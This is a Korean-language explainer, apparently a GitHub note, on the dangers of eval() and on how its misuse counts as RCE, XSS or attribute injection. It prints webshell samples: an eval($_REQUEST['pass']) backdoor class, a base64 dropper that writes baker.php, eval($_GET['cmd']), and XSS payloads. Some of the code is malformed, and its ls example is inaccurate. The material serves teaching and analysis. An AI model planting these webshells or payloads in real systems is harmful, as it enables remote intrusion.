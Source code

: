 ## **🔍 `eval()`의 위험성 및 분류**

### **`eval()`이란?**

`eval()`은 주어진 문자열을 코드로 실행하는 함수입니다. 주로 **PHP**, **JavaScript** 같은 언어에서 사용되며, 서버나 클라이언트에서 동적으로 코드를 실행할 수 있게 해 줍니다. 하지만 **악용될 경우** 보안에 심각한 문제를 일으킬 수 있습니다.

| 용어                              | 설명                                                        |
| ------------------------------- | --------------------------------------------------------- |
| **XSS (Cross-Site Scripting)**  | 자바스크립트 코드가 브라우저에서 실행됨                                     |
| **RCE (Remote Code Execution)** | 서버 측에서 임의의 코드가 실행됨                                        |
| **eval()**                      | 브라우저에서도 쓰이고, PHP 같은 서버언어에서도 쓰이는 **실행 함수**                 |
| **Attribute Injection**         | HTML 속성(attribute)에 악성 코드가 삽입됨 (ex: `onerror="alert(1)"`) |

---

### **📡 서버 측에서 `eval()` → RCE (Remote Code Execution)** (PHP, Node.js 등)

`eval()`을 **서버 측**에서 사용하면 **Remote Code Execution (RCE)** 공격에 취약해질 수 있습니다. 서버에서 실행되는 코드가 외부 입력에 의존하게 되면, 공격자는 **서버에서 임의의 코드를 실행**할 수 있습니다.


```php
eval($_GET['cmd']);  // 위험한 RCE
```

* 이 코드는 사용자가 HTTP 요청으로 `cmd` 파라미터를 보내면, 그 값을 코드로 실행합니다.
* 예를 들어, `http://example.com/?cmd=ls`와 같은 요청이 들어오면, 서버에서 **`ls` 명령어**가 실행됩니다. 이는 **XSS가 아니라 RCE** 공격입니다.

#### **이중 인코딩된 웹쉘**:

```php
eval(base64_decode('...'));
```

* \*\*`base64`\*\*로 인코딩된 코드를 **디코딩**하여 실행하는 예시입니다. 디코딩된 코드는 웹쉘일 가능성이 높습니다.
* 이 방식은 웹쉘을 숨기고 우회하는 데 자주 사용됩니다.
* 시나리오는 다음과 같습니다.
  
| 항목     | 내용                                              |
| ------ | ----------------------------------------------- |
| **목적** | 서버에 `baker.php`라는 파일 생성                         |
| **내용** | `baker.php` 안에 **base64 인코딩된 PHP 코드** 삽입        |
| **기능** | `eval()`, `base64_decode()` 이용한 원격 명령 실행 백도어 설치 |
| **결과** | 공격자가 `baker.php?pass=...`와 같은 요청으로 **명령 실행 가능** |

---

### **🌐 클라이언트 측 HTML에서 `eval()` → XSS (Cross-Site Scripting)**

클라이언트 측에서는 `eval()`을 악용하여 **XSS** 공격을 할 수 있습니다.

```html
<script>
eval(location.hash.slice(1)); // location.hash에 따라 JS 실행
</script>
```

* 이 코드는 사용자가 **URL의 해시값**을 `eval()`을 통해 실행하게 합니다.
* **URL의 해시값 (hash value)**은 URL의 # 뒤에 오는 부분을 의미합니다. 보통 웹 페이지 내에서 특정 위치나 요소로 **"이동"**하거나, 상태를 추적하는 데 사용합니다.
* 예를 들어, `#alert(1)`을 URL에 추가하면 `alert(1)`이 실행됩니다.
* 이는 **XSS** 공격으로, 사용자가 의도하지 않은 자바스크립트가 실행됩니다.

---

### **✒️ Attribute Injection으로의 활용**

만약 `eval()`이 **HTML 속성**에 삽입된다면, **Attribute Injection** 형태로 XSS 공격이 발생할 수 있습니다. 이는 HTML 태그 내 속성에 악성 코드를 삽입하는 공격입니다.

```html
<img src="x" onerror="eval(alert('XSS'))">
```

* 위 코드에서 `eval()`은 `<img>` 태그의 `onerror` 속성에 삽입되어 있습니다.
* 사용자가 이미지를 로드하지 못했을 때 (에러가 발생하면) `eval(alert('XSS'))`가 실행됩니다.
* 이 경우는 **Attribute Injection**을 통한 **XSS** 공격입니다.

> **Attribute Injection**은 **HTML 속성에 코드가 삽입되는 경우**에 해당합니다. 즉, `eval()`이 사용되더라도 위치에 따라 XSS의 **하위 유형**으로 분류될 수 있습니다.

  
  
  
## **✅ `eval()` 사용 사례에 따른 보안 분류**

| 상황                                              | 분류                                 |
| ----------------------------------------------- | ---------------------------------- |
| `eval()`이 서버에서 실행 (PHP, Node.js 등)              | 🔥 **RCE** (Remote Code Execution) |
| `eval()`이 `<script>` 안에서 실행                     | 🧨 **XSS**                         |
| `eval()`이 `<img onerror="...">`와 같은 HTML 속성에 삽입 | 🚩 **Attribute Injection (XSS)**   |

  
  
  
## **📌 예시 코드 1: base64 디코딩 후 `eval()` 실행**

```php
eval(base64_decode('...'));
```

* 이 코드는 **base64로 인코딩된 코드**를 디코딩하여 실행합니다.
* **디코딩된 코드**는 웹쉘일 가능성이 높고, 이 방식은 **웹쉘 우회 기법**으로 자주 사용됩니다.

#### **디코딩된 코드 예시**:

```php
file_put_contents('baker.php', base64_decode('PD9waHAgY2xhcz0NFNDkzRjYYgeyBwdWJsaWMgZnVuY3Rpb24gX19jb25zdHJ1Y3QoJEh5NUY3...'))
```

* 위 코드는 \*\*`file_put_contents`\*\*를 사용하여 서버에 `baker.php` 파일을 생성하고, **다시 base64로 인코딩된 PHP 웹쉘**을 그 파일에 저장합니다.
* **웹쉘**을 서버에 설치하여 원격으로 명령을 실행할 수 있게 됩니다.

---

## **📌 예시 코드 2: 난독화된 PHP 코드와 `eval()`**

```php
<?php
class GcE493F6 {
    public function __construct($Hy5F7){
        @eval(.$Hy5F7.);
    }
}
new GcE493F6($_REQUEST['pass']);
echo error303;
?>
```

#### **코드 설명**:

| 줄                                     | 설명                                                      |
| ------------------------------------- | ------------------------------------------------------- |
| `class GcE493F6 { ... }`              | `GcE493F6`라는 클래스 정의 (이름은 무작위로 보이지만 난독화된 것)              |
| `public function __construct($Hy5F7)` | 클래스가 생성될 때 자동 실행되는 **생성자 함수**                           |
| `@eval(.$Hy5F7.);`                    | `$Hy5F7`에 들어온 문자열을 **PHP 코드로 실행** → `eval()` 사용         |
| `new GcE493F6($_REQUEST['pass']);`    | `$_REQUEST['pass']` 값으로 객체를 생성하며, **그 값이 곧 실행됨**        |
| `echo error303;`                      | 존재하지 않는 상수 `error303` 출력 → PHP Notice 또는 오류 유도 (종료 확인용) |

* \*\*`eval($_REQUEST['pass']);`\*\*는 사용자가 **HTTP 요청**으로 보낸 **문자열**을 PHP 코드처럼 실행하는 방식입니다. 이는 **XSS**나 **RCE** 공격의 가능성을 염두에 두고 취약점이 됩니다.

